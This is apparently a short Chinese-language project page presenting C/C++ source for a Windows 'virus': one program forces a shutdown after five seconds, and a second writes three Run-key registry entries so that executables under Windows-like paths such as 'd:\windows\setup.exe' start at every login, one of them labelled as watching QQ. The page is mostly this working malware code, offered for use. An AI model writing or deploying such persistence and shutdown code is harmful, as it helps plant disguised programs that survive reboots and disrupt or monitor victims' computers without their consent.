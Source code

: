 
### 关机代码
这个功能实现比较简单。

    #include<stdio.h>
    #include<windows.h>
    
    int main(){
        // 五秒关机
        system("shutdown -s -t 5");

        return 0 ;
    }

## 代码

### 注册程序，将病毒主体加入开机自启动
```
#include<stdio.h>
#include<windows.h>
#include<iostream>
#include <tchar.h>
#include<cstdlib>
#include<ctime>
using namespace std ;

int main(){
    HKEY hkey ;//计算机\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
	TCHAR p[64] ;
    long ret;
    ret = RegCreateKey(HKEY_CURRENT_USER,_T("Software\\Microsoft\\Windows\\CurrentVersion\\Run"),&hkey);
    if(ret==ERROR_SUCCESS){
        ret = RegSetValueEx(hkey,_T("LexBer"),0,REG_SZ,(const BYTE*)("d:\\windows\\setup.exe"),21);  // 主
        ret = RegSetValueEx(hkey,_T("Begin"),0,REG_SZ,(const BYTE*)("d:\\windows\\system32\\bin\\begin.exe"),35); // 主要动作
        ret = RegSetValueEx(hkey,_T("FindQQ"),0,REG_SZ,(const BYTE*)("d:\\windows\\system32\\conf\\find.exe"),35);//监控实时变化
        if(ret==ERROR_SUCCESS){
            // 写入成功
        }else {
            // 写入失败
            cout << "Write filed !" ;
        }
    }else {
        cout << "Read error !" << endl ;
    }

    return 0 ;
}
```
